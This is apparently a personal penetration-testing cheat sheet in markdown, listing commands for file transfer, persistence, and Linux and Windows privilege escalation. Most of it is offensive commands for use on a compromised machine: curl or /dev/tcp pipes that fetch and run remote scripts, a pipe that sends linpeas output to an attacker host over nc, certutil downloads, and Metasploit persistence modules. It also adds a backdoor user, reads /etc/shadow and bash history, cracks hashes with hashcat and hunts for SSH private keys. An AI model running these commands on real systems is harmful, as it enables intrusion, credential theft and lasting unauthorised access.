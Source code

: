 ## Permissions

virtual host routing

dnsrecon for finding domains

```
dnsrecon -r 127.0.0.1/24 -n <ip> -d <make up a domain>
```


## File Transfer
HTTP 
```
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
FTP
```
python -m pyftpdlib 21 #Host
ftp <ip> #Victim
```
**Windows**
Certutil
```
certutil.exe -urlcache -f http://<attack IP>/<file> <file name>
```
**Linux**
```
wget
```
## Persistance
*Probably already with a meterpreter shell*

**Scripts**
```
run persistance -h
exploit/windows/local/persistance
exploit/windows/local/registry_persistance
```
**Scheduled Task**
```
run scheduleme
run scheduletaskabuse
```
**Add User**
```
net user <user> <pass> /add
```
## Pivoting

## Linux Privilege Escalation 
Identify Weakness
Wanna find bad SUID permissions?
```
find / -type f -perm -4000 2>/dev/null 
```
GTFOBins
```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```
```
cat ~/.bash_history | grep -i passwd
ls -la /etc/shadow
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

```
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null 
```

Always go for a tty shell if you have a worse shell if possible

use a command like [(see here)](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Privilege Escalation
to grab a file to a windows computer 

```
certutil.exe -urlcache -f http://<lhost>/<filename> <name>
```
## Useful files

[PEASS-NG](https://github.com/peass-ng/PEASS-ng)

```
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```